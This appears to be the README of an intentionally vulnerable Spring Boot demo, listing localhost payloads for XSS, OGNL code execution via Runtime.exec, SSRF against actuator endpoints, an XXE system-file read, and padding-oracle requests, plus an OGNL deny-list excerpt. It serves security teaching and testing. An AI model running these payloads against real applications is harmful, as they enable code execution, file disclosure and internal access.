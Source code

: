 # SpringBoot-Vulnerable-Demo-2024
## XSS

[http://127.0.0.1:8080/greeting?name=<script>alert('xss')</script>](http://127.0.0.1:8080/greeting?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[view-source:http://127.0.0.1:8080/greeting?name=<script>alert('xss')</script>](view-source:http://127.0.0.1:8080/greeting?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[http://127.0.0.1:8080/greeting-vulnerable?name=<script>alert('xss')</script>](http://127.0.0.1:8080/greeting-vulnerable?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)

[view-source:http://127.0.0.1:8080/greeting-vulnerable?name=<script>alert('xss')</script>](view-source:http://127.0.0.1:8080/greeting-vulnerable?name=%3Cscript%3Ealert(%27xss%27)%3C/script%3E)


## Ongl
- [https://codeql.github.com/codeql-query-help/java/java-ognl-injection/](https://codeql.github.com/codeql-query-help/java/java-ognl-injection/)'
- [https://xz.aliyun.com/t/10482](https://xz.aliyun.com/t/10482)
- 
@java.lang.Runtime@getRuntime().exec("calc")

http://127.0.0.1:8080/ongl-vulnerable

http://127.0.0.1:8080/ongl-vulnerable?name=%22aaaa%22.length
http://127.0.0.1:8080/ongl-vulnerable?name=@java.lang.Math@abs(-111)


http://127.0.0.1:8080/ongl-vulnerable?name=@java.lang.Runtime@getRuntime().exec(%22calc%22)


https://github.com/orphan-oss/ognl/blob/main/src/main/java/ognl/OgnlRuntime.java
```java
    public static Object invokeMethod(Object target, Method method, Object[] argsArray)
            throws InvocationTargetException, IllegalAccessException {
        boolean syncInvoke;
        boolean checkPermission;
        Boolean methodAccessCacheValue;
        Boolean methodPermCacheValue;

        if (_useStricterInvocation) {
            final Class<?> methodDeclaringClass = method.getDeclaringClass();  // Note: synchronized(method) call below will already NPE, so no null check.
            if ((AO_SETACCESSIBLE_REF != null && AO_SETACCESSIBLE_REF.equals(method)) ||
                    (AO_SETACCESSIBLE_ARR_REF != null && AO_SETACCESSIBLE_ARR_REF.equals(method)) ||
                    (SYS_EXIT_REF != null && SYS_EXIT_REF.equals(method)) ||
                    (SYS_CONSOLE_REF != null && SYS_CONSOLE_REF.equals(method)) ||
                    AccessibleObjectHandler.class.isAssignableFrom(methodDeclaringClass) ||
                    ClassResolver.class.isAssignableFrom(methodDeclaringClass) ||
                    MethodAccessor.class.isAssignableFrom(methodDeclaringClass) ||
                    MemberAccess.class.isAssignableFrom(methodDeclaringClass) ||
                    OgnlContext.class.isAssignableFrom(methodDeclaringClass) ||
                    Runtime.class.isAssignableFrom(methodDeclaringClass) ||
                    ClassLoader.class.isAssignableFrom(methodDeclaringClass) ||
                    ProcessBuilder.class.isAssignableFrom(methodDeclaringClass) ||
                    AccessibleObjectHandlerJDK9Plus.unsafeOrDescendant(methodDeclaringClass)) {
                // Prevent calls to some specific methods, as well as all methods of certain classes/interfaces
                //   for which no (apparent) legitimate use cases exist for their usage within OGNL invokeMethod().
                throw new IllegalAccessException("Method [" + method + "] cannot be called from within OGNL invokeMethod() " +
                        "under stricter invocation mode.");
            }
        }

```

## SSRF

curl -X POST http://127.0.0.1:8080/ssrf-vulnerable -d "hostname=http://127.0.0.1:8080/actuator/metrics"

curl -X POST http://127.0.0.1:8080/ssrf -d "hostname=http://127.0.0.1:8080/actuator/metrics"

actuator
http://127.0.0.1:8080/actuator/metrics
http://127.0.0.1:8080/actuator/beans


## XXE

<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///C:\\Windows\\system.ini'>]><root>&test;</root>

http://127.0.0.1:8080/xml-vulnerable?xml=%3Ctest%3EWorld%3C/test%3E

http://127.0.0.1:8080/xml-vulnerable?xml=%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20test%20SYSTEM%20%27file%3A%2F%2F%2FC%3A%5C%5CWindows%5C%5Csystem%2Eini%27%3E%5D%3E%3Croot%3E%26test%3B%3C%2Froot%3E

## Padding Oracle

https://www.nccgroup.com/us/research-blog/cryptopals-exploiting-cbc-padding-oracles/

#### admin
curl -X POST http://127.0.0.1:8080/encrypt-vulnerable -d "data=YWRtaW4="         

curl -X POST http://127.0.0.1:8080/decrypt-vulnerable -d "data=6gnwywMp22o5Hwtu6cVd4Q=="

curl -X POST http://127.0.0.1:8080/encrypt -d "data=YWRtaW4="

curl -X POST http://127.0.0.1:8080/decrypt -d "data=lVJrUD21AiZ53VikvCrCfDZhYIqZWdlgnO6RtlTufBLqCfDLAynbajkfC27pxV3h"

####  role=admin
curl -X POST http://127.0.0.1:8080/encrypt-vulnerable -d "data=cm9sZT1hZG1pbg=="